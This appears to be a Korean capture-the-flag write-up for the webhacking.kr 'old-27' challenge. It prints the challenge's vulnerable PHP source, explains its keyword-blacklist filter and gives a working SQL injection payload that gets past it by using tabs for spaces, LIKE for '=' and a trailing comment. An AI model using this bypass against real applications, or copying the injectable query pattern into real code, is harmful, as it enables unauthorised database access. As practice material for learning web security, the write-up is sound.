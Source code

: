 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Webhacking old-27 Write-Up</h1>
</body>
<br>
<br>
</html>

먼저 문제 서버로 들어가보자.
![image](https://github.com/user-attachments/assets/4458cb21-58b0-4627-9b23-ba2ad499ad8b)

입력칸이 보인다.
바로 문제 소스코드를 살펴보자.

```python
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 27</title>
</head>
<body>
<h1>SQL INJECTION</h1>
<form method=get action=index.php>
<input type=text name=no><input type=submit>
</form>
<?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
<br><a href=?view_source=1>view-source</a>
</body>
</html>
```

코드를 살펴보니 admin으로 로그인하면 문제를 해결할 수 있는것 같다. 
```python
if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
```
```preg_match```함수를 사용해  ```#```, ```select```, ```(```, ```공백```, ```limit```, ```=```, ```0x``` 등의 문자열을 필터링하고 있다.

```python
$r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
```
그리고 위의 코드를 보면  chall27 테이블에서 데이터를 가져오는데 id는 guest이고 no가 guest가 아닐 경우 querry error를 뜨게 되는 것을 알 수 있다. 

주석문을 통해 admin의 no가 2임을 알 수 있다. 

그렇다면 쿼리문을 통해 admin으로 로그인 하려면
```
SELECT id FROM chall27 WHERE id='guest' AND no=(0) or no=2;--
```
위와 같은 쿼리문을 만들어야 하므로 ```=```과 ```공백```우회 하는 방법을 찾아야 한다.
구글링 해보니 ```=```은 ```like```로 우회가 가능하고 ```공백```은 ```%09```으로 우회가 가능하다.

```python
0)%09or%09no%09like%092;--%09
```
![image](https://github.com/user-attachments/assets/0dc2871b-ab1c-4342-b8d5-916b9f97e243)

정답임을 확인했다!!
